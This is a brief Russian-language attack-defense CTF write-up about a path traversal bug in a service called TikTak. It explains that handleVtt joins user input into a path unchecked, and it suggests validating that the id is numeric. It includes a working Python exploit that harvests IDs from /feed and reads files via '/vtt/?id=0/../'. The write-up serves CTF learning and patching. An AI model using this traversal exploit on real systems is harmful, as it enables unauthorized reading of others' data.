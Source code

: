 # Path traversal в TikTak

Отсутствие проверки в handleVtt и использование path.Join с вволом пользователя приводит к чтению произовльных видео

Пустой результат от базы данных трактуется как разрешенный


sploit для destructive farm

```
import requests
import sys
import re


base_url = "http://" + sys.argv[1] + ":4000"

ids = re.findall(r'D:</b> (\d+)<', requests.get(base_url + '/feed').text)

for id_ in ids:
    print(id_)
    print(requests.get(base_url + "/vtt/?id=0/../" + id_).text)
```

Один из вариантов исправления - проверять, что id это число:
![](https://github.com/ArturLukianov/ADWriteups/blob/master/images/tiktak-traversal/Screenshot%20from%202020-05-09%2013-13-06.png)


